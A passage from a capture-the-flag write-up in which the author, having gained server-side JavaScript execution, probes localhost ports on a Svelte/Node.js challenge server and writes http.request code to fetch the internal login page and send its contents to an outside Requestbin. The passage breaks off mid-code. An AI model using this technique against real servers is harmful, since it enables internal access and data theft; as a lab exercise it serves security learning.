 ![Untitled](</hw5b/Untitled 18.png>)

Ok, seems like only `http` and `https` are installed. (Prior to this, gldanoob used `fetch` and found out there are 4 modules installed, with one being `fetch`, ~~CTF author modify solution bad bad~~.)

Now we can send data back to our Requestbin, but the problem is where should we get our data (flag) from? Since we can now run JavaScript on server side, let’s try accessing the website using `localhost`!

But what is the port for `localhost`? As given in Hint 2, this server uses Svelte and Node.js, so after some Googling, the possible ports could be 3000, 4173 or 5173. (It is recommended to refer to the official documentation since Reddit lied to me about port being 5000 and 8080)

After some testing (and crashing the server because you picked the wrong port), you will find out that only **port 5173** did not crash, so this should be the correct port. (~~or just wrench author probably more easier~~)

Now, let’s try to send the login page back to our Requestbin:

```jsx
// Send GET request to the login page.
const options1 = {
  hostname: "localhost",
  port: 5173,
  path: "/",
  method: "GET",
  headers: {
    "Content-Type": "application/json",
    "Cookie": "Add your own Cookies."
  },
}

// Get the response body and put it into different variables.
const req1 = http.request(options1, function(res) {
  var status_code = res.statusCode;
  var heading = JSON.stringify(res.headers)
  res.on("data", function(chunk) {
    var lol = chunk.toString();

		// Pack variables into data.
    const data = JSON.stringify({
```